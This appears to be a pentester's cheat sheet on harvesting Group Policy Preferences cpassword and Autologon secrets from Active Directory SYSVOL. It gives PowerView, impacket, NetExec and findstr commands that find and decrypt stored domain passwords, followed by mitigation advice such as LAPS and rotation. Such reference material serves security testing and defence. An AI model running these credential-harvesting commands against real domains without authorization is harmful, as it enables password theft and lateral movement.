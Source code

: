 # GPO GPP Group Policy Preferences Passwords
- GPP MS14-025
- Purpose: locate **GPP (cpassword)** and **Autologon** secrets stored in Group Policy objects. Use only in authorized environments.  
- Output includes: at least **two tool-methods**, commands to _find_ candidate files/entries and to _decrypt_ cpassword values / identify autologon passwords, plus short mitigation notes.
## Overview (what to look for)
- **GPP (Group Policy Preferences)** stores managed local account / service account passwords as `cpassword` attributes inside XML files under SYSVOL:
    
    - `\\<DC>\SYSVOL\<domain>\Policies\<GPO_GUID>\Machine\Preferences\...`
        
    - Common XML locations: `Groups`, `Services`, `ScheduledTasks`, `Printers`, `Files`, `Registry`, `Drives`, `Shortcuts`.
        
- **Autologon** for GPO Preferences is stored as registry preference entries (`DefaultPassword`, `AutoAdminLogon`, etc.) in the same `Preferences\Registry` XML files, or under `Winlogon` registry.pol entries.
    
- `cpassword` values are encrypted with a **static Microsoft key** (therefore trivially decryptable with public tools).
    

---
## GPO

```bash
import PowerView (adjust path to your copy) Import-Module .\PowerView.ps1  
# Simple: find and decrypt all GPP passwords from SYSVOL (uses domain & sysvol access) 
Get-GPPPassword -Domain 'corp.local' -Verbose  
# Or, export to CSV for post-processing 
Get-GPPPassword -Domain 'corp.local' | Export-Csv -Path .\gpp_passwords.csv -NoTypeInformation

impacket-Get-GPPPassword # impacket-Get-GPPPassword

impacket-Get-GPPPassword mydomain.local/auditor:SecureP@ss123@192.168.1.10  # Online/LIVE mode
impacket-Get-GPPPassword -xmlfile ./gpp_files/Groups.xml  # offline mode


# Example: run CME against a domain controller and request GPP data 
nxc smb dc01.corp.local -u 'CORP\\alice' -p 'AlicePass!' -M gpp 

# LOLBins
findstr /S /I cpassword \\<domain_fqdn>\sysvol\<domain_fqdn>\policies\*.xml

```

**Notes:**
- `Get-GPPPassword` will fetch the XMLs from SYSVOL and automatically decrypt `cpassword`.
    
- Output fields include the GPO path, account name, username, and cleartext password.
    

---
## Autologon specifics

```powershell
Import-Module .\PowerView.ps1
# This command looks for autologon settings in the local machine's registry
Get-RegistryAutoLogon

#To specifically search for _autologon_ registry preference entries in GPO XML files:
$gpoPath = "\\dc01.corp.local\SYSVOL\corp.local\Policies\*" Get-ChildItem -Path $gpoPath -Recurse -Include *.xml |   Select-String -Pattern 'DefaultPassword|AutoAdminLogon|AutoLogon|cpassword' -SimpleMatch |   ForEach-Object { $_.Path; $_.Line }
```
---
## Detection & Mitigation (short)

- **Remove GPP-stored passwords:** Replace GPP-managed passwords with managed service accounts, gMSA, or central secrets management. Do **not** store static passwords in GPP.
- **Rotate** any passwords discovered immediately (including local admin/service accounts).
- **Disable** Autologon or ensure it is not deployed via GPO with plaintext passwords.
- **Limit SYSVOL access:** Only domain-joined machines and admins should read SYSVOL content; monitor and alert on unusual access to `\\<DC>\SYSVOL`.
- **Audit GPO changes** and enable monitoring for `cpassword` or registry password entries in GPOs.
- Consider deploying **Microsoft LAPS** for local admin password management instead of GPP.
#### Mitigation
**Mitigation:** The issue was addressed by Microsoft (MS14-025) which prevented the creation of _new_ GPPs with passwords. 
- However, **existing GPPs** containing passwords were not automatically removed. 
- The recommended modern defense is to use **Windows Local Administrator Password Solution (LAPS)**, which ensures every local administrator account has a unique, rotating password stored securely in Active Directory.

---
## References / further reading
- PowerView / PowerSploit `Get-GPPPassword` (PowerShell) — used to fetch & decrypt.
- `gpp-decrypt.py` (public python implementations) — decrypts `cpassword`.
- `CrackMapExec` `gpp` module — automates discovery via SMB.